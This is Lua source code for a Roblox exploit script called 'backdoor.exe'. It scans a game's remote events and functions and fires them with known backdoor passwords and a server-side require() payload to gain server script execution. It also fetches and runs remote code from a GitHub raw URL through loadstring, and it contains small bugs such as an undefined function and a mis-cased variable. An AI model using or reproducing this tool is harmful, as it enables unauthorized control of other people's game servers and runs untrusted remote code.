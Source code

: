 local LocalPlayer = game:GetService("Players").LocalPlayer
local requireScript = ("require(7924358164):k4scripts('%s')"):format(LocalPlayer.Name)
local invCode = "6HndYgC"
 
local alternativeSS = {
    run = { [1] = "5#lGIERKWEF" },
    emma = { [1] = "pwojr8hoc0-gr0yxohlgp-0feb7ncxed", [2] = ",,,,,,,,,,,,,,," },
    helpme = { [1] = "helpme" },
    pickett = { [1] = "cGlja2V0dA==" },
    harked = "https://raw.githubusercontent.com/iK4oS/backdoor.exe/indev/harkedSS.lua"
}
 
local function notify(text)
    game:GetService("StarterGui"):SetCore(
    "SendNotification",
        {
            Title = "backdoor.exe",
            Duration = 3,
            Text = text
        }
    )
end
 
local function attached(possibleWait)
    if possibleWait then wait(possibleWait) end
    return LocalPlayer.PlayerGui:FindFirstChild("backdoor.exe")
end
 
local function validRemote(rm, _className)
    local fullName =  rm:GetFullName()
    
  if string.find(fullName, "DefaultChat") then return false end
    if string.find(fullName, LocalPlayer.Name) then return false end
    if rm:FindFirstChild("__FUNCTION") then return false end
    if rm.Parent == game:GetService("JointsService") then return false end
    
   if rm.ClassName ~= _className then return false end
 
   if getgenv().blacklisted then
        if table.find(getgenv().blacklisted, fullName) then return false end
    end
 
   return true
end
 
local function harked()
    local backpack = LocalPlayer.Backpack 
    return backpack:FindFirstChild("HandlessSegway") and
        Backpack.HandlessSegway:FindFirstChild("RemoteEvents") and
        Backpack.HandlessSegway.RemoteEvents:FindFirstChild("DestroySegway")
end
local function emmaBackdoor(rm)
    return rm.Name == "emma" and rm.Parent.Name == "mynameemma"
end
local function runBackdoor(rm)
    return rm.Name == "Run" and
    rm.Parent:FindFirstChild("Pages") and rm.Parent:FindFirstChild("R6") and
    rm.Parent:FindFirstChild("Version") and rm.Parent:FindFirstChild("Title")
end
 
local function scanGame()
    notify("Scanning for a backdoor.")
    if harked() then
        loadstring(game:HttpGetAsync(alternativeSS.harked))()
        return
    end
 
   for _, remote in pairs(game:GetDescendants()) do
        if validRemote(remote, "RemoteEvent") and not attached() then
            if emmaBackdoor(remote) then
                remote:FireServer(unpack(alternativeSS.emma), requireScript)
            end
            if runBackdoor(remote) then
                remote:FireServer(unpack(alternativeSS.run), requireScript)
            end
 
   remote:FireServer(unpack(alternativeSS.helpme), requireScript)
      remote:FireServer(unpack(alternativeSS.pickett), requireScript)
         remote:FireServer(requireScript)
 
   end
  end
 
  for _, remote in pairs(game:GetDescendants()) do
      if validRemote(remote, "RemoteFunction") and not attached() then
         remote:InvokeServer(requireScript)
      end
   end
 
end
    scanGame()
    
 if not attached(2) then
        notify("Unable to find backdoor.\nGame not backdoored?")
    end
 
if game:IsLoaded() then
    pcall(Main)
end
